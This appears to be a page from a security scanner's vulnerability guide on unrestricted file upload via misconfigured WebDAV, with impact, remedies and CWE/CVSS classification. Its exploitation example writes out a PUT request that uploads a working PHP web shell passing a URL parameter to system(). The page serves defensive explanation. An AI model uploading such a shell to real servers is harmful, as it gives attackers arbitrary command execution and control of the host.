 ```yaml
---
title: "Insecure WebDAV Server: Unrestricted File Upload"
slug: "insecure-webdav-server-unrestricted-file-upload"
hidden: true
createdAt: "2021-12-14T07:14:35.620Z"
updatedAt: "2022-08-05T19:42:20.382Z"
---
```

[block:html]
{
  "html": "<div>\n  <a href=\"/docs/vulnerability-guide\">< Back to tests</a>\n</div>"
}
[/block]

[block:html]
{
  "html": "<b>Severity</b>: <b><font color=\"#DB1E54\">High</font></b><br>\n<b>Test name</b>: Common Server Misconfigurations"
}
[/block]

[block:html]
{
  "html": "<table id=\"simple-table\">\n   <style>\n #simple-table {\n    border-collapse: separate;\n    width: 100%;\n    display: block;\n    display: table;\n  }\n#simple-table th {\n    padding: 1.5%;\n    text-align: left;\n    vertical-align: text-top;\n    background-color: #B2D6DA;\n  </style>\n  <body>\n    <tr>\n        <th><strong>Summary</strong></th>\n    </tr>\n</table>\n  </body>"
}
[/block]
WebDAV, or Web Distributed Authoring and Versioning, is a protocol that allows users to remotely collaborate and edit content on the web.

WebDAV is a term given to a collection of HTTP methods. HTTP requests can use a range of methods other than standard GET and POST. WebDAV can be used to manipulate files on the web server. If WebDAV is misconfigured, an attacker can get a local or root shell on the system using the publicly accessible PUT method (also known as one of the WebDAV methods) and upload an unrestricted file. Once the file is uploaded to the server it can be renamed, moved or executed. The web application takes the uploaded file and saves it in the file system, data storage, or in a database.

If a malicious file has been uploaded into the file system, the attacker is able to request this file using the URL of the victim’s site. As a result, the attacker can execute any arbitrary command on the web server.
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Exploitation example</strong></th>\n    </tr>\n</table>"
}
[/block]
1. Let's imagine an admin forgot to disable the usage of some HTTP methods like PUT.

2. Expected request example:

[block:code]
{
  "codes": [
    {
      "code": "# GET method is expected to be available\nGET /webdav HTTP/1.1\nHost: example.com",
      "language": "text"
    }
  ]
}
[/block]
3. An attacker can send the following request:
[block:code]
{
  "codes": [
    {
      "code": "PUT /webdav/shell.php HTTP/1.1\nHost: example.com\nContent-Type: application/octet-stream\n\n# BODY Payload:\n<?php\n    if(isset($_GET['cmd']))\n    {\n        system($_GET['cmd']);\n    }\n?>",
      "language": "text"
    }
  ]
}
[/block]
4. This will create a shell script on WebDAV. If the script is executed, it allows sending any system commands and executing them, taking complete control over the system.
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Impact</strong></th>\n    </tr>\n</table>"
}
[/block]
This vulnerability leads to:
* Remote Code Execution
* Unauthorized Access
* Data Leakage
* Denial of Service (DoS)
* Buffer Overflow
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Location</strong></th>\n    </tr>\n</table>"
}
[/block]
The issue can be found in the **server configuration**.
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Remedy suggestions</strong></th>\n    </tr>\n</table>"
}
[/block]
* Ensure the WebDav service is updated to the latest version.
* If you are not using the WebDAV extension, it's recommended to be disabled. 
* Only GET and POST HTTP methods should be allowed and other unused methods should be blocked. If required, these other methods should only be enabled with credentials and public access denied. Make sure the password used is complex and unguessable.
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n        <th><strong>Classifications</strong></th>\n    </tr>\n</table>"
}
[/block]
* CWE-434
* CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L/E:H/RL:O/RC:C
[block:html]
{
  "html": "<table id=\"simple-table\">\n    <tr>\n      <th><strong>References</strong></th>\n    </tr>\n</table>"
}
[/block]
	
* https://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html 
* https://datatracker.ietf.org/doc/html/rfc2518 
[block:html]
{
  "html": "<div>\n  <a href=\"/docs/vulnerability-guide\">< Back to tests</a>\n</div>"
}
[/block]